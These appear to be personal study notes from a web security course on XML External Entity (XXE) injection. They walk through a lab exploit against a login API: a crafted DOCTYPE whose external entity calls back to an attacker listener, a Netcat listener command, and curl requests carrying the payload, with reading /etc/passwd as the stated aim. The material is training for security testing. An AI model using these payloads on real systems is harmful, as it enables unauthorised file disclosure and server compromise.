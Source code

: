 # XML External Entity (XXE) Injection
Refer to [[CBBH Modules (For Testing)/3. Input-Based Attacks/7. XXE Injection/XXE Prevention]] section for more in-depth techniques.

XML External Entity (XXE) Injection vulnerabilities occur when XML data is taken from a user-controlled input without properly sanitizing or safely parsing it, which may allow us to use XML features to perform malicious actions.

XXE vulnerabilities can cause considerable damage to a web application and its back-end server, from disclosing sensitive files to shutting the back-end server down.
## Example Scenario
Suppose we are assessing such an application residing in `http://<TARGET IP>:3001`.

By the time we browse `http://<TARGET IP>:3001`, we come across an authentication page.

Lets try logging in and capturing our login request with Burp:
![HTTP POST request to /api/login with XML payload containing email and password.](https://academy.hackthebox.com/storage/modules/160/11.png)
- We notice that an API is handling the user authentication functionality of the application.
- User authentication is generating XML data.

Let us try crafting an exploit to read internal files such as _/etc/passwd_ on the server.

First, we will need to append a DOCTYPE (DTD) to this request.
#### What is a DOCTYPE (DTD)?
Check [[CBBH Modules (For Testing)/3. Input-Based Attacks/7. XXE Injection/XML Basics]]

Defines the structure and the legal elements and attributes of an XML document. 

Our current payload is:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN/TUN Adapter IP>:<LISTENER PORT>"> ]>
<root>
<email>test@test.com</email>
<password>P@ssw0rd123</password>
</root>
```
- We defined a DTD called _pwn_, and inside of that, we have an `ENTITY`.
- We have called our external entity _somename_, and it will use the SYSTEM keyword, which must have the value of a URL, or we can try using a URI scheme/protocol such as `file://` to call internal files.

Let us set up a Netcat listener as follows.
```shell
nc -nlvp 4444
```

Now let us make an API call containing the payload we crafted above.
```shell
curl -X POST http://<TARGET IP>:3001/api/login -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN/TUN Adapter IP>:<LISTENER PORT>"> ]><root><email>test@test.com</email><password>P@ssw0rd123</password></root>'
```

If we notice no connection being made to our listener, this is because we have defined our external entity, but we haven't tried to use it. We can do that as follows.
```shell
curl -X POST http://<TARGET IP>:3001/api/login -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN/TUN Adapter IP>:<LISTENER PORT>"> ]><root><email>&somename;</email><password>P@ssw0rd123</password></root>'
```

After the call to the API, you will notice a connection being made to the netcat listener.
- This shows the API is vulnerable to XXE Injection.
